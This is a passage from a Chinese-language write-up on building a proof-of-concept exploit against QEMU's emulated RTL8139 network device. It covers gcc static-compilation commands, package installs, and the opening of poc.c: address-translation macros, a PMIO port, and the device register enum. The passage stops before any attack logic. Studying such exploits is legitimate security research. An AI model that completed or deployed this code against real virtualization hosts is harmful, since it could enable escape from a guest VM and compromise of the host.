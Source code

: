 **POC**

静态编译为32位的程序（gcc -m32 -static poc.c -o poc -std=c99），然后通过scp拷贝到虚拟机中。

```
sudo apt-get install build-essential module-assistant
sudo apt-get install gcc-multilib g++-multilib
```
- FATAL: kernel too old ，内核版本太低，两种方案，一种是更新一下虚拟机的内核，第二种是降低编译阶段的内核版本,[参考链接](https://github.com/chiwent/blog/issues/1)。（第三种，也可以直接在虚拟机下装一下编译工具链，本地编译）
接下来编写poc，相关功能都注释在代码中。

**poc.c**

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;assert.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;inttypes.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/io.h&gt;
#include &lt;stdint.h&gt;

#define PAGE_SHIFT  12
#define PAGE_SIZE   (1 &lt;&lt; PAGE_SHIFT)
#define PFN_PRESENT (1ull &lt;&lt; 63)
#define PFN_PFN     ((1ull &lt;&lt; 55) - 1)

#define RTL8139_BUFFER_SIZE 1514
/*通过lspci -v 获取IO端口*/
uint32_t pmio_port = 0xc000;

/*常量直接从rtl8139.c中拷贝*/

enum RTL8139_registers `{`
    MAC0 = 0,        /* Ethernet hardware address. */
    MAR0 = 8,        /* Multicast filter. */
    TxStatus0 = 0x10,/* Transmit status (Four 32bit registers). C mode only */
                     /* Dump Tally Conter control register(64bit). C+ mode only */
    TxAddr0 = 0x20,  /* Tx descriptors (also four 32bit). */
    RxBuf = 0x30,
    ChipCmd = 0x37,
    RxBufPtr = 0x38,
    RxBufAddr = 0x3A,
    IntrMask = 0x3C,
    IntrStatus = 0x3E,
    TxConfig = 0x40,
    RxConfig = 0x44,
    Timer = 0x48,        /* A general-purpose counter. */
    RxMissed = 0x4C,    /* 24 bits valid, write clears. */
    Cfg9346 = 0x50,
    Config0 = 0x51,
    Config1 = 0x52,
    FlashReg = 0x54,
    MediaStatus = 0x58,
    Config3 = 0x59,
    Config4 = 0x5A,        /* absent on RTL-8139A */
    HltClk = 0x5B,
    MultiIntr = 0x5C,
    PCIRevisionID = 0x5E,
    TxSummary = 0x60, /* TSAD register. Transmit Status of All Descriptors*/
    BasicModeCtrl = 0x62,
```